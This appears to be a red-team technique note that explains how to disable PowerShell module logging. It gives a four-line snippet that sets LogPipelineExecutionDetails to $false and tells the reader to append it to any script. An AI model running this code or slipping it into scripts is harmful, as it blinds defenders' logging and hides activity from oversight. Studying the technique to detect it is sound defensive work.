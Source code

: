 # Abusing log pipeline

Within PowerShell, each module or snap-in has a setting that anyone can use to modify its logging functionality. An 
attacker can change this value to `$false` in any PowerShell session to disable a module logging for that specific 
session. The Microsoft docs even note the ability to disable logging from a user session: 
_"To disable logging, use the same command sequence to set the property value to FALSE ($false)."_

At a high-level the log pipeline technique can be broken up into four steps:

1. Obtain the target module.
2. Set module execution details to `$false`.
3. Obtain the module snap-in.
4. Set snap-in execution details to `$false`.

## Code

```text
$module = Get-Module Microsoft.PowerShell.Utility # Get target module
$module.LogPipelineExecutionDetails = $false # Set module execution details to false
$snap = Get-PSSnapin Microsoft.PowerShell.Core # Get target ps-snapin
$snap.LogPipelineExecutionDetails = $false # Set ps-snapin execution details to false
```

Append to any PowerShell script or run in a session to disable module logging of currently imported modules.
